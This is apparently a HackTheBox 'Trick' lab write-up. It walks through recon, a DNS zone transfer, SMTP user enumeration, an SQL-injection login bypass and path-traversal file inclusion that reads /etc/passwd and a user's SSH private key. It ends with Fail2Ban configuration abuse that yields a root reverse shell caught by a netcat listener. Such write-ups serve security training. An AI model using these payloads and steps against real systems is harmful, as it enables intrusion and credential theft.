



<button type="button" name="button" class="btn">#dnsenumeration</button>
<button type="button" name="button" class="btn">#Fail2Ban</button>
<button type="button" name="button" class="btn">#LFI</button>
<button type="button" name="button" class="btn">#sqlinjection</button>
<button type="button" name="button" class="btn">#CVE-2014-4688</button>
<button type="button" name="button" class="btn">#CVE-2014-4688</button>
# Enumeration
## NMap
```bash
┌──(ghohst㉿kali)-[~]
└─$ nmap -sC -sV 10.10.11.166    
Starting Nmap 7.93 ( https://nmap.org ) at 2022-10-27 15:26 MDT                                                                                       
Nmap scan report for 10.10.11.166
Host is up (0.063s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 61ff293b36bd9dacfbde1f56884cae2d (RSA)
|   256 9ecdf2406196ea21a6ce2602af759a78 (ECDSA)
|_  256 7293f91158de34ad12b54b4a7364b970 (ED25519)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: debian.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid:
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Coming Soon - Start Bootstrap Theme
Service Info: Host:  debian.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.91 seconds

```

## GoBuster
Not a whole lot from GoBuster:
```bash
┌──(ghohst㉿kali)-[~]
└─$ gobuster dir -u http://10.10.11.166 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.166
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2022/10/27 15:32:00 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 185] [--> http://10.10.11.166/assets/]
/css                  (Status: 301) [Size: 185] [--> http://10.10.11.166/css/]
/index.html           (Status: 200) [Size: 5480]
/js                   (Status: 301) [Size: 185] [--> http://10.10.11.166/js/]
Progress: 4608 / 4615 (99.85%) ===============================================================
2022/10/27 15:32:33 Finished
```

## HTTP
Viewing the site we see a box to enter an email address and receive updates when the site launches:  


Filled out w/ a dummie email address and the link provided points here:
https://startbootstrap.com/solution/contact-forms

Reviewing Wappalyzer it looks like the broostrap version (UI) is: Boostrap 5.1.3
No Robots.txt
No /admin

## SMTP
Quick test to see if root is a valid SMTP user, and it is:
```bash
┌──(ghohst㉿kali)-[~]
└─$ nc -nv 10.10.11.166 25     
(UNKNOWN) [10.10.11.166] 25 (smtp) open
VRFY root
220 debian.localdomain ESMTP Postfix (Debian/GNU)
252 2.0.0 root
VRFY admin
550 5.1.1 <admin>: Recipient address rejected: User unknown in local recipient table
VRFY test
550 5.1.1 <test>: Recipient address rejected: User unknown in local recipient table
quit
221 2.0.0 Bye
```
I wasn't necessarily intending on going much deeper here, but we'll hold onto this info for later. Probably just facilitating the user of the dummy form fields we're seeing.

## DNS Part 1
We know port 53 is open. This was a bit of a shot in the dark with 'trick.htb', but produced a few results, namely this new CNAME:
````bash
┌──(ghohst㉿kali)-[~/Documents/HTB/Trick]
└─$ dig axfr trick.htb @10.10.11.166                                                                                        10 ⨯

; <<>> DiG 9.18.7-1-Debian <<>> axfr trick.htb @10.10.11.166
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 84 msec
;; SERVER: 10.10.11.166#53(10.10.11.166) (TCP)
;; WHEN: Thu Oct 27 15:53:37 MDT 2022
;; XFR size: 6 records (messages 1, bytes 231)
````

Added trick.htb and this new CNAME (preprod-payroll.trick.htb) to my /etc/hosts file to browse them:
```
┌──(root💀kali)-[/home/ghohst/Documents/HTB/Trick]
└─# sudo echo 10.10.11.166 trick.htb >> /etc/hosts

┌──(root💀kali)-[/home/ghohst/Documents/HTB/Trick]
└─# sudo echo 10.10.11.166 preprod-payroll.trick.htb >> /etc/hosts
```

## SQLi
The preprod CNAME redirects to /login.php with a login form:  


A straight up blind test of
```
' OR 1=1;#
```
in the username field pushed us to what appears to be the Admin page (indicating the site is vulnerable to SQL Injection). Admittedly, this was just out of habit to enter this in - I can't imagine I get this lucky elsewhere:  


## HTTP Part 2
Doesn't seem to be a whole lot on this page, I can reset the Administrator's password, but that doesn't really matter because we can just bypass the logon anyway - so we'll leave it alone. Documenting this image here which contains the username 'Enemigosss' in case that becomes relevant later on:  


There is an employee list that may be valuable later, with one employee John Smith:


After browsing the site there isn't really a whole lot happening and perhaps this is the rabbit hole that 'trick' wants us to dig ourselves into.

## DNS Part 2
We'll pivot here and see if maybe there are some other sub-domains that were hidden along with preprod-payroll. My thinking is that was the hint (a sub-domain prepended by 'preprod-'), but further enumeration is required. I initially started out trying to FUZZ w/ DirBuster, but it wasn't getting me anywhere - I don't think gobuster is necessarily designed for this kind of thing.

### FFUF
Started with a basic FFUF scan to exclude 404's, but they all came  back 200s anyway :|
```bash
┌──(ghohst㉿kali)-[~]
└─$ ffuf -u http://trick.htb -H "Host:preprod-FUZZ.trick.htb" -w /usr/share/wordlists/dirb/common.txt -fc 404
```

Filtered by both words and size (-fw, -fs) and am getting one result that is unique, so we'll start there:
```bash
┌──(ghohst㉿kali)-[~]
└─$ ffuf -u http://trick.htb -H "Host:preprod-FUZZ.trick.htb" -w /usr/share/wordlists/dirb/common.txt -fs 5480

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://trick.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Header           : Host: preprod-FUZZ.trick.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 5480
________________________________________________

marketing               [Status: 200, Size: 9660, Words: 3007, Lines: 179, Duration: 257ms]
:: Progress: [4614/4614] :: Job [1/1] :: 159 req/sec :: Duration: [0:02:16] :: Errors: 200 ::
```

Keep in mind that this is preprod-marketing.trick.htb because of where I placed the FUZZ. This isn't marketing.trick.htb:
```bash
┌──(root💀kali)-[/home/ghohst/Documents/HTB/Trick]
└─# sudo echo 10.10.11.166 preprod-marketing.trick.htb >> /etc/hosts
```

and this gets us access to a new site:
![[Pasted image 20221027172111.png]]

FUZZing past this point doesn't get us much more:
```bash
┌──(ghohst㉿kali)-[~]
└─$ ffuf -u http://preprod-marketing.trick.htb/FUZZ -w /usr/share/wordlists/dirb/common.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://preprod-marketing.trick.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 9660, Words: 3007, Lines: 179, Duration: 108ms]
css                     [Status: 301, Size: 185, Words: 6, Lines: 8, Duration: 58ms]
img                     [Status: 301, Size: 185, Words: 6, Lines: 8, Duration: 63ms]
index.php               [Status: 200, Size: 9660, Words: 3007, Lines: 179, Duration: 82ms]
js                      [Status: 301, Size: 185, Words: 6, Lines: 8, Duration: 80ms]
:: Progress: [4614/4614] :: Job [1/1] :: 600 req/sec :: Duration: [0:00:09] :: Errors: 0 ::
```

## HTTP Part 3 / LFI
Navigating around this new site, there also isn't a whole lot happening. Identified a form file and entered in dummy info and email - nothing new to see. XSS doesn't seem possible as it isn't outputting anything helpful, either.

We do see that the address bar is showing Page= at the end of each navigation - indicating local file inclusion may be possible/is happening:  


After quite a bit of trial and error, I was able to get the site to leak /etc/passwd. [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion) was super helpful here.
```
http://preprod-marketing.trick.htb/index.php?page=....//....//....//etc/passwd
```

The only interesting entry in /etc/passwd was 'Michael'
```
michael:x:1001:1001::/home/michael:/bin/bash
```

Michael does have an ssh folder and id_rsa (private key), so we'll navigate there and confirm it's presence, and then wget it down to our machine:
```
http://preprod-marketing.trick.htb/index.php?page=....//....//....//home/michael/.ssh/id_rsa
```

```bash
wget http://preprod-marketing.trick.htb/index.php?page=....//....//....//home/michael/.ssh/id_rsa -O id_rsa
```

# Exploitation
SSH Key in hand, we can attempt to connect to the server via command line. Now, one thing that threw me off was that it kept asking for a password because permissions were 'too open', so using chmod to bring it down to 600 seemed to do the trick:
```bash
┌──(ghohst㉿kali)-[~/Documents/HTB/Trick]
└─$ chmod 600 id_rsa             

┌──(ghohst㉿kali)-[~/Documents/HTB/Trick]
└─$ ssh michael@trick.htb -i ./id_rsa
Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
michael@trick:~$
```

I have access to shell now and cat'd out the user flag. Running Sudo -l we can see that Michael can run this fail2ban restart as root, so we'll start researching Fail2Ban and determine what can be done here:
```bash
michael@trick:~/Downloads$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```

# Privilege Escalation

There weren't many articles, but [this one on medium](https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7) seems to explain it best.
I copied over the iptables-multiport.conf file to Michaels' user directory (couldn't be edited in place):
```bash
cp /etc/fail2ban/action.d/iptables-multiport.conf ./
```

Edited the file to initiate a reverse shell under the value for <b>ACTIONBAN</b>:



Moved the file back over to /etc/fail2ban and overwrote what was there:
```bash
mv iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf
```

I DID NOT RESTART FAIL2BAN

I cat'd out the file to make sure the code was still there, started up a listener, attempted to SSH 3 times (failing), the listener picked up, I moved to the /root folder and cat'd out root.txt. I had to go through the process a few times (copying the file, manipulating the file, moving it over) because after a brief few moments the file would revert back to its original form (especially when restarting the service!). Ultimately, I was able to grab the flag.

```bash
┌──(ghohst㉿kali)-[~]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.166] 60458
ls
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
cd /root
ls
f2b.sh
fail2ban
root.txt
set_dns.sh
cat root.txt
f#####################3
```
